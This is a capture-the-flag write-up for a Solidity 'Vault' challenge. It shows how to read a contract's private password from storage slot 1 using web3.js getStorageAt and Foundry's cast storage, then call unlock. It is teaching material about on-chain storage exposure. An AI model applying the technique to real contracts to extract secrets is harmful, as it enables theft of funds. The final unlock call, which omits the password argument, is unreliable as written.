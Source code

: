 ### Level 8 Vault
To unlock this contract, Inspect the storage of the Vault contract

## Prerequisites
- Layout of storage variables in solidity
- Reading a storage slot in a contract 

## solution
To read the value of password in storage, you have to know where it is store.
```solidity
bytes32 private password;
```
The password is a bytes32 data type which means it will occupy a whole slot in storage.

So the slot is 1, To read the slot 1 in storage we can use web3.js as follow: 
```javascript
password = await web3.eth.getStorageAt(contract.address, 1)
```

To read contract storage in your foundry project use cast
```javascript
cast storage [contract.address] [slot]
cast storage 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2 1
```

Call unlock with the value ov password
```javascript
await contract.unlock();
```
